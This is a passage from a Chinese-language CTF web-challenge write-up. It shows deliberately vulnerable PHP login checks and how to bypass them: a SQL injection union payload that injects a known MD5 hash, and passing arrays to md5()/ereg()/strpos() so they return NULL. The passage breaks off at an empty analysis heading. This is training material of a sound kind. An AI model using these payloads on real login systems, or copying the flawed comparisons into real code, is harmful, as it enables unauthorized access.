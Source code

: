 **思路分析**

- 跟第九题类似
- payload如下:
```
?user='and 0=1 union select 'e10adc3949ba59abbe56e057f20f883e' #&pass=123456
```

## md5()函数===使用数组绕过

**部分源码**
```php
<?php
error_reporting(0);
$flag = 'flag{test}';
if (isset($_GET['username']) and isset($_GET['password'])) {
    if ($_GET['username'] == $_GET['password'])
        print 'Your password can not be your username.';
    else if (md5($_GET['username']) === md5($_GET['password']))
        die('Flag: '.$flag);
    else
        print 'Invalid password';
}
?>
```

**思路分析**

- GET传入的username与password不同但md5相同才能输出flag，由于是三个等号，不能用md5碰撞，可用数组绕过，payload如下:(PHP对数组进行hash计算都会得到NULL的空值)
```
?username[]=1&password[]=2
```

## ereg()函数strpos()函数用数组返回NULL绕过

**部分源码**

```php
<?php  

$flag = "flag";  
   
if (isset ($_GET['password'])) {  
    if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)  
        echo 'You password must be alphanumeric';  
    else if (strpos ($_GET['password'], '--') !== FALSE)  
        die('Flag: ' . $flag);  
    else  
        echo 'Invalid password';  
}  
?>
```

**思路分析**

